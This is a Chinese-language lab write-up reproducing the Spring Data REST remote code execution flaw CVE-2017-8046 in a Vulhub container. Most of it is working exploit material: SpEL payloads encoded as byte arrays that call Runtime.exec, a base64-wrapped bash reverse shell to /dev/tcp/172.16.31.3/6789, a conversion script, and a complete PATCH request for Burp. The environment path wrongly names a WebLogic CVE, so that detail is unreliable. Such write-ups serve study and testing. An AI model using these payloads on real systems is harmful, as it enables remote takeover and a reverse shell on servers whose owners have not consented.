

# Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）

### 1.1、漏洞描述

Spring Data REST是Spring Data项目的一部分，可以轻松地在Spring Data存储库之上构建超媒体驱动的REST Web服务。

恶意的PATCH请求使用精心构造的JSON数据提交到spring-data-rest服务可以执行任意JAVA代码 

### 1.2、漏洞原理

Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码.

### 1.3、漏洞等级

高

### 1.4、影响版本

Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version < 2.0.0M4
Spring Data release trains < Kay-RC3

### 1.5、漏洞复现

#### 1、基础环境

Path：Vulhub/weblogic/CVE-2017-10271

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到


#### 2、漏洞验证

访问`http://your-ip:8080/customers/1`出现如下界面说明存在漏洞


进一步验证，验证之前，我们需要制作payload，将要执行的命令进行转换，不然会执行不成功的.

```python
 ",".join(map(str,(map(ord,"touch /tmp/success"))))
```


或者使用[在线转换](https://www.osgeo.cn/app/s2650)



```
(0)制作payload   将 touch /tmp/success 进行ASCII-字符 转换 

(1)访问 http://靶场ip:8080/customers/1 进行抓包

(2)转包之后将GET修改为PATCH

(3)添加字段 Content-Type: application/json-patch+json

(4)将制作好的payload添加到最后一行
```

payload：

```json
[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`然后进入容器看看：


### 1.6、深度利用

#### 反弹Shell

[棱角 ::Edge.Forum](https://forum.ywhack.com/shell.php)

[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)

```bash
直接利用，反弹shell

bash -i >& /dev/tcp/172.16.31.3/6789 0>&1

base64编码后得到

YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuMy82Nzg5IDA+JjE=

和bash反弹连接命令拼接得到

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuMy82Nzg5IDA+JjE=}|{base64,-d}|{bash,-i}

利用代码对拼接后的payload转换为ascii码

payload = b'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuMy82Nzg5IDA+JjE=}|{base64,-d}|{bash,-i}'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```


通过burpsuite发送poc

```bash
PATCH /customers/1 HTTP/1.1
Host: 172.16.31.3:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/json-patch+json
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 450

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,84,89,117,77,122,69,117,77,121,56,50,78,122,103,53,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
```


### 1.7、修复建议

官方已经发布新版本修复了该漏洞，受影响的用户可升级至最新版本来防护该漏洞

### 1.8、参考

- https://www.cnblogs.com/sallyzhang/p/12401604.html
- https://www.cnblogs.com/icez/p/Spring_Data_REST_PATCH_RCE_CVE-2017-8046.html